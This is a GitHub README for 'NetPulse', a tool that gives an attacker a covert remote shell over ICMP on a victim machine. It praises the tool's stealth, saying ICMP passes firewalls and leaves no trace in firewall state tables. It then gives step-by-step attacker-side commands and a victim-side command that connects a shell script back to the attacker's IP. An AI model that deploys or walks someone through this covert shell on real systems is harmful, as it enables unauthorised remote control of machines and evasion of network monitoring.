# NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

<img src="https://github.com/thekh40s/netpulse/assets/129444003/110df8c1-6116-488a-9012-830512eff5c3" width="800">

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

Check the value of the `/proc/sys/net/ipv4/icmp_echo_ignore_all` file:
```bash
$ cat /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Change the value to "1" to disable automatic responses:
```bash
$ echo 1 | sudo tee /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Make the changes permanent in `/etc/sysctl.conf`:
```bash
$ sudo nano /etc/sysctl.conf
```
Add the following line:
```
net.ipv4.icmp_echo_ignore_all = 1
```
Apply the settings:
```bash
$ sudo sysctl -p
```

### Starting the Client

To start the client, execute the [netpulse_client.py](/netpulse_client.py) file with root permissions:

```bash
$ sudo python3 netpulse_client.py -i <interface> <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse_client.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [netpulse_server.sh](/netpulse_server.sh) file:
```bash
$ chmod +x netpulse_server.sh && ./netpulse_server.sh <attacker-IP>
```

# Buy me a Coffee :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
